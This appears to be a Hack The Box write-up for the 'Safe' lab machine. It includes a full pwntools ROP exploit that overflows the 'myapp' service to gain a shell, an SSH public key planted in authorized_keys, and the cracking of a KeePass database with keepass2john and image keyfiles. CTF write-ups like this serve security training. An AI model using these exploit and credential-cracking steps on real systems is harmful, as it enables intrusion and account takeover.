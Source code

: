 # Hack The Box - Safe

![](Images/safe.png)



### <u>Port Scan</u>

We will start with a **nmap** to scan for open ports with the following command:

```
~$ nmap -sC -sV -p- 10.10.10.147
```

![](Images/1.png)



The server has 3 open ports:

1. Apache Web Server -> 80

2. OpenSSH Server -> 22

3. 1337 -> Custom application

   

### <u>Web Enumeration</u>

When we enter in the web application we see the default Debian Apache webpage but in the source code there is a comment with a hint that indicates that we can download the application that is running on port 1337 if we visit ***/myapp***.

![](Images/2.png)

![](Images/3.png)



### <u>Custom Application Analysis: myapp</u>

After downloading the application running on port 1337, we will analyze it to find any vulnerabilities that could compromise the server.

**Myapp** is a 64 bits application, dynamically linked and with no symbols stripped.

![](Images/4.png)



Seeing that the application returns the same string that we sent the first thing we could think is that the application is vulnerable to format string, but resulted not be vulnerable to format string vulnerability because after sending **%x** the application did not leak any memory address.

![](Images/5.png)

![](Images/6.png)



The next step was to check if the application is vulnerable to buffer overflow sending a long payload.

![](Images/7.png)



After check that the application is vulnerable to buffer overflow we are going to check if the binary has been compiled with any protection. **Myapp** has NX protection enabled so we need to do a ROP chain in oder to exploit this program because the stack is not executable.

![](Images/8.png)



### <u>Exploit Development</u>

1. **Calculate offset**:
   We need to create a pattern in order to calculate how many bytes we need to send to overwrite the **rip** register.

   ![](Images/9.png)

   

   We can control the program flow if we send 120 bytes.

   ![](Images/10.png)

   

2. **Generate ROP chain:**

   We are going to create a ROP chain that writes at **.bss** section a string and then we are going to call system function with that string in order to execute commands.

   First we will search a "pop rdi; ret" gadget.

   ```bash
   ~$ ropper -f myapp > gadgets.txt
   ~$ grep "pop rdi" gadgets.txt
   ```

   ![](Images/11.png)
   
   

   Then we will search in which memory position is the **.bss** section

   ![](Images/12.png)


   We will create the following script using **pwntools** to write in **.bss** the command we want to execute and then we will pass the memory address in which our string is stored to the function system

   ```python
   from pwn import *
   
   elf  = ELF('./myapp')
   context.terminal = ['tmux', 'sp', '-h']
   context.log_level = 'DEBUG'
   
   io= remote("10.10.10.147",1337)
   
   payload = flat(
               'A'*120,
               0x40120b,           # 0x000000000040120b : pop rdi ; ret
               0x404058,           #.bss
               elf.sym['gets'],
   	        0x40120b,                # 0x000000000040120b : pop rdi ; ret
               0x404058,             #.bss
               elf.sym['system'],
               endianness = 'little', word_size = 64, sign = False)
   io.recvline()
   io.sendline(payload)
   io.interactive()
   
   ```

   

3. **Execute Exploit:**

   We can execute any command but the program will finish after that, to avoid that we will execute "***/bin/bash***" in order to get a shell.
   
   ![](Images/13.png)

   

   

### <u>Privilege Escalation</u>

We decide to write out public key at "***/home/user/.ssh/authorized_keys***" to enter by SSH.

![](Images/14.png)

![](Images/15.png)



There are some interesting files in the user home, one Keepass database and six images files.

![](Images/16.png)



We decided to download those files and then try to crack the Keepass database, but without success.

![](Images/17.png)



After researching we discovered that it is possible to use a keyfile+password in a keepass database.

We can use keepass2john to generate a hash in order to crack the keepass database.

```bash
~$ keepass2john -k IMG* MyPasswords.kdbx >> Safe_Keepass_Keyfiles.txt
```

![](Images/18.png)



We cracked the hash so we can access to **MyPasswords** database using IMG_547.jpg as keyfile and **bullshit** as password in order to obtain the root password.

![](Images/19.png)



We use the password obtained in the keepass file to become root and obtain the root flag.

![](Images/20.png)

